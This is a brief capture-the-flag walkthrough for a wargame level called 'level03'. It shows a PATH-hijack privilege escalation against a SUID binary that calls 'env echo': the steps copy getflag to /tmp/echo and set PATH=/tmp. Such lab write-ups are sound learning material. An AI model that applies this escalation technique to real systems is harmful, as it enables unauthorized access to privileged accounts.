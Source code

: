 ### Documentation
[SUID Programs](https://docslib.org/doc/5806212/set-uid-privileged-programs-1)

### Exploit
1. `ls -l`
   ```bash
   -rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
   ```

2. `xxd level03 | less`
   ```bash
   [...]
   00005e0: [...] /usr/bin/env echo Exploit me
   [...]
   ```

3. `cp /bin/getflag /tmp/echo`

4. `PATH=/tmp`

5. `./level03`